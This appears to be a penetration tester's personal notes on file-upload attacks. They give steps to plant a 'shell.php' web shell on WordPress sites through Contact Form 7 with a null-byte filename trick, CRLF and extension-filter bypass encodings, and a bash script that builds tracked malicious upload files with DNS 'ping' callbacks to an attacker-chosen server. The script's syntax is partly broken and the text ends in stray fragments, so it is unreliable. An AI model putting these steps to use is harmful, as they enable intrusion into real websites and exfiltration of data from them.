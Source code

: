 1. Change the file extension of the file you want to upload (e.g: 
"shell.php") to its equivalent with the special character ending (in
this case "shell.php" (appended U+0000))

2. Upload the file using ContactForm7 file upload feature in the 
target website.

3. Go to <target.com>/wp-content/uploads/wpcf7_uploads/shell.php
Note the special character at the end
Note that the file upload location may vary as it is configurable.

4. Now you have uploaded your file!


## App blocks %0D%0A? we try %0A or %0D or %u2028 or %2029 (using correct encoding).

But also remember to try things like this especially if you are dealing with Java:
```
%C0%8D%C0%8A
%c4%8a
%EA%A8%8A
```


## Double extensions
.jpg.php, where it circumvents easily the regex \.jpg


## Null bytes
.php%00.jpg, where .jpg gets truncated and .php becomes the new extension



# tracking my attacks
- Make command to take the website, date, and random name to make folders for each. 
- store a copy of the malicious fle locally. use the files to upload on sites.
- base64 encode string.
- call back to my DNS server using ```ping -c 1 <website-date-unique-filename>.<FQDN>``` for easy look up. 

```
#!/bin/bash

# Ask the user what website they are making this for.
echo "what website would you like to make this stuff for?"
read varname

# Ask the user what DNS server 
echo "what DNS server would you like to use for data exfiltration/ verification?"
read varname2

# use variable to make folder
mkdir $varname/$(date + "%d-%b-%Y")

# change directory 
cd $varname/$(date + "%d-%b-%Y")

# for loop to make files
for each format in $(cat format.txt); do key=$(echo "$varname.$(date + "%d-%b-%Y-%T").$(echo $RANDOM).$format" | base64); touch $key.$format; echo "ping -c 1 $key.$varname2" >> $key.$format; done 

python in a zip. 

svg
jpg
```